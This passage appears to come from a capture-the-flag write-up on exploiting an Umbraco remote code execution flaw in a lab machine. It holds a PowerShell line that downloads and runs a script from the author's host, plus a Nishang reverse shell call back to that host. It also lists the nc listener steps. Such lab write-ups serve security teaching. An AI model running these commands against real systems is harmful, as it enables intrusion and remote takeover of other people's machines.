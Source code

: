     
    root@kali# python umbraco_rce_ping.py 
    Start
    []
    End
    

Then there are pings in `tcpdump`:

    
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    16:53:30.589383 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 1, length 40
    16:53:30.589462 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 1, length 40
    16:53:31.604147 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 2, length 40
    16:53:31.604261 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 2, length 40
    16:53:32.619998 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 3, length 40
    16:53:32.620023 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 3, length 40
    16:53:33.634646 IP 10.10.10.180 > 10.10.14.19: ICMP echo request, id 1, seq 4, length 40
    16:53:33.634668 IP 10.10.14.19 > 10.10.10.180: ICMP echo reply, id 1, seq 4, length 40
    

#### Shell

I’ll update the payload with the PowerShell loader that will download from my
host a [Nishang](https://github.com/samratashok/nishang) PowerShell reverse
shell and run it. The payload will be:

    
    
    string cmd = "/c powershell -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1')";
    

To break that down, the target exe is still `cmd.exe`. It will run with `/c`,
so running the command that follow. PowerShell will start, with `-c` to issue
commands that follow. `iex` (shorthand for `Invoke-Expression`) will run
whatever string comes back from the rest of the line. The rest of the line
will reach out to my host, and download `shell.ps1` (which is then passed to
`iex`).

I’ll grab a copy of `Invoke-PowerShellTcp.ps1` (and save it as `shell.ps1`),
and add a line at the bottom to execute the shell:

    
    
    Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.19 -Port 443
    

Without this line, the harness would load the reverse shell functions into the
PowerShell session, and but not use them. Now it will load the functions and
then invoke the one I want to call back to me.

I’ll use three windows:

  1. Run `python umbraco_rce_iex.py`.
  2. A Python web server hosting `shell.ps1`.
  3. A `nc` listener (with `rlwrap` for shell arrow keys) to catch the reverse shell.
